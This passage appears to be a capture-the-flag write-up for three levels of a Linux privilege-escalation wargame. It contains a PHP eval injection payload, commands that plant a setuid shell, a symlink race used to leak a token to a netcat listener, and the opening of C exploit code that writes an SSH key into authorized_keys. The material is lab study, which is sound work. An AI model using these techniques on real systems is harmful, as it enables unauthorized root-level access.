 ```
[email {${eval($use_me)}}]
```

Now, everything that we will pass in the `$use_me` variable (that we control using the second command line argument) will be executed as PHP code.

As in some previous levels, we create a simple program `launch_shell` that launches a shell. We then execute the following command :

```bash
/home/flag09/flag09 /home/level09/exploit_file "echo exec('cp /tmp/launch_shell /home/flag09');"
/home/flag09/flag09 /home/level09/exploit_file "echo exec('chmod +xs /home/flag09/launch_shell');"
/home/flag09/launch_shell 
```

As before, it copies our program, makes it executable by everyone and setuid it. We then just have to launch our program to get a shell as `flag09`.

## Level 10

From the man page, we can read that the `access` syscall check if we have access to the file using the real UID, whereas `open` open the file using the effective UID. We also note that after verfying the access to the file, the program tries to connect to the given IP. If the server on the target IP is not up, the program will wait a moment.

Thus, we can first create a soft link pointing to a file we have read access to, for example `/home/level10/x`. The `access` check will succesfully pass, and the program will wait on `Connecting…`. At this point we can just change the soft link so that it points to the token at `/home/flag10/token` and launch our listenning server (with a simple `nc -l 18211`). The token is then printed on the server's `stdout`.

## Level 11

That one was harder. I was first concentrated on doing an exploit using the `system()` call but I couldn't find any idea how to do this, as bash reset the effective UID to the real UID if they don't match. Thus, despite having the executable with the setuid bit set, the bash command are executed as `level11`.

I then had to get a hint from [graugans](https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9). I didn't catch the fact that we can use the `.ssh` folder created in the `/home/flag11` folder to get access to the machine. Indeed, the random file returned by `/home/flag11` is in fact easy to predict, as `time(NULL)` returns the time in second (which is a lot for a computer) and the PID of the program is also easy to predict. We can then create a link with the predicted name that points to `/home/flag11/.ssh/authorized_keys`, and then pass to stdin our public ssh key, as the main function just copies the input to the file. The final exploit looks like this :

```c
#define _GNU_SOURCE

#include <string.h>
#include <stdlib.h>
#include <stdio.h>
#include <time.h>
#include <unistd.h>

#define CL "Content-Length: "

int main(int argc, char **argv)
{
	char pubkey[] = "ssh-rsa THE_SSH_PUBKEY";
	int len = 2 * strlen(pubkey) + 1;
	int pid = getpid() + 1;
	char *path;
	char tmp[] = "/tmp";
	srandom(time(NULL));
	asprintf(&path, "%s/%d.%c%c%c%c%c%c", tmp, pid,
```